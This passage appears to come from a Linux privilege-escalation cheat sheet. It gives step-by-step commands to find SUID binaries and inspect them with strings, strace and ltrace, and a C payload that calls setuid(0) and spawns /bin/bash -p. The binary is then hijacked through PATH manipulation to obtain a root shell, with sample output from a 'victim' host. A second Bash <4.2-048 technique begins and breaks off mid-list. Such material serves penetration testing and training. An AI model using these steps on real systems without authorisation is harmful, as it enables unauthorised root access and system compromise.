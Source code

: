 1.  Enumerate SUID/SGID files on the target:

    ```
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    ```
2.  Enumerate the strings on the SUID file:

    ```
    strings /usr/local/bin/binary
    ```
3.  We can verify if it executes a service or file with strace:

    ```
    strace -v -f -e execve /usr/local/bin/binary 2>&1 | grep service
    ```
4.  Alternatively, we can also verify with ltrace:

    ```
    ltrace /usr/local/bin/binary 2>&1
    ```
5.  Create a file named service.c with the following contents:

    ```
    int main() {
     setuid(0);
     system("/bin/bash -p");
    }
    ```
6.  Compile service.c into a file called service:

    ```
    gcc -o service service.c
    ```
7.  Prepend the current directory to the `$PATH` environment variable, and execute the SUID file to execute a root shell:

    ```
    PATH=.:$PATH /usr/local/bin/binary
    root@victim:~# id
    uid=0(root) gid=0(root) groups=0(root) ...
    ```

An alternative way to modify the $PATH environment variable is:

```bash
export PATH=/<directory>:$PATH
```

### Bash <4.2-048

It is possible to define user functions with an absolute pathname.

#### Bash <4.2-048 Privilege Escalation

1.  Enumerate SUID/SGID files on the target:

    ```
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    ```
2.  Enumerate the programs that binary runs with strings:
